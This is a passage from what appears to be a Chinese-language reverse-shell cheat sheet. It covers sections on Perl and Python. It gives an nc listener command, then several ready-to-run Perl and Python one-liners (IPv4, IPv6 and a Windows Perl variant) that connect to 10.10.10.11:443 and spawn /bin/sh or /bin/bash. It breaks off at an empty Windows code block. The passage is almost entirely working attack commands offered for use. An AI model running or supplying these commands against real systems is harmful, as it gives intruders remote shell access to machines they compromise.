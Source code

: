 ## 7、利用Perl脚本反弹
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：
```bash
perl -e 'use Socket;$i="10.10.10.11";$p=443;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"10.10.10.11:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
win平台下执行：
```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.10.10.11:443");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## 8、利用Python脚本反弹shell
首先在本地监听TCP协议443端口

```bash
nc -lvp 443
```
然后在靶机上执行如下命令：


IPv4协议如下：
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.11",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```bash
export RHOST="10.10.10.11";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.11",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
IPv6协议如下：
```bash 
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",443,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```
Windows平台如下:
```bash
```